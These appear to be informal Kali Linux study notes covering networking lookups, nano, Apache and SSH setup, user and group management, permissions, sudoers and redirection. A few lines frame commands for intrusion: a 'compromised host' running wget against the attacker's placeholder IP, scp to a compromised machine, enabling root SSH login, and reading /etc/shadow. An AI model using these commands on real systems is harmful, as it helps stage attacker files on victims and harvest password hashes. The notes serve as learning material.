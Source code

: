 ifconfig        //to get ipaddress 
nslookup google.com//any website will work        //will give dns server ip
cat /etc/resolve.conf       //gives dns server ip
ip route        //to get gateway
traceroute google.com//any website          //to get gateway and trace the path of the packet

netstat -antp               //to see what service are running on that server and which host are using that services on that server
-a : all
-n : show numerical address
-t : tcp
-p : show the name of the program

------------------NANO--------------------------------
nano Clone of pico (for older version)
nano newFile.txt    //creates file or open if already exists
ctrl + G : help
ctrl + X : save and exit
ctrl + W : to search for words in nano interface (alt + W to go to next word)
ctrl + K : cut text
ctrl + U : paste cutted text

-------------- Service conf --------------------------
turning on webserver on kali machine
service apache2 start

//webfile are located at
/var/www/html/
//in this file we can put files which can be downloaded on other systems

example (Compromissed host ubuntu)
ubuntu@debian:~# wget http://IPofkali_thatIsMyMachine/FileNameWhichIsToBEDownloaded

-------------- Configuration file -------------------
service ssh start           //to start service in the machine in which we want ssh shell
//for example we will start that service in our kali mahine from above command
//here we want be able to log as root so we have modify our ssh config
nano /etc/ssh/sshd_config

remove # this from PermitRootLogin Prohibit-password to PermitRootLogin yes
and save the file

//now if we do 
ssh localhost 
//and enter root password we will have root ssh shell
---------------------ssh server as kali --------------------------
cd /etc/ssh     //directory of ssh keys in kali machine
//this has to be done once when we freshly install our kali machine
mkdir default-keys
mv ssh_host_* default-keys/
//Now generating new keys
dpkg-reconfigure openssh-server
//we will do the above process in which we permit rootlogin form conf file
//in this way we allow other machine to log in our system as root and can download file from our system

//If windows machine and we want to download file from remote server we can use WinSCP
enter Credentials and get GUI Interface of the machine and dowload files

//This is to just give shell
//If Linux machine
ssh IP_file_provider_machine
//this will by default as root user in file_Provider_machine
//but if we want specific user to log
ssh username@IP_file_provider_machine

we can use scp to copy file to compromised machine from form our kali machine just google the syntax

---------------- Managing user and groups ----------------------
whoami      //display your username
w           //show who logged on and what they're doing
cat /etc/passwd     //see a list of users
cat /etc/shadow     //see encrypted passwords

id      //display group of your username
groups username //gives groupname of the user
cat /etc/groups //lists of all group in machine

adduser mit     //create a new user mit with home dir
useradd mit     //create a new user mit without home dir
userdel mit     //delete user mit
deluser --remove-home mit   //Delte user mit and remove home dir

addgroup IIT        //create a new group IIT
usermod -g IIT MIT  //changing MIT group to IIT group
delgroup MIT        //Delete group MIT

-----------Maintaining permission of users------------------------
syntax -
chmod ugoa +-= rwx filename
+ add permission
- remove permission
= only permission

example
chmod u+x somefile (somefile executable for owner)
chmod a+rw somefile (somefile readable and writeable by everyone)


sudo -l (list programs you can run as root)
config sudo
/etc/sudoers/
# User privilege specification
root ALL=(ALL:ALL) ALL
user1 ALL=(ALL:ALL) ALL     //user1 is user on os
user2 ALL=(ALL:ALL) ALL     //user2 is user on os

----------------------Redirecting------------------------------
> //directs command output to file. Create file automatically and overwrites file if it exists.
>> //Appends command output to file
<  //Directs content of file to command

wc -l file.txt      //(word count)counts number of lines in file

| cut -d " " -f 2   //this command will cut output from spaces 1st space to 2nd space
| sort -u           //this command will sort and remove duplicate data when piped

------------------------------------------------------------------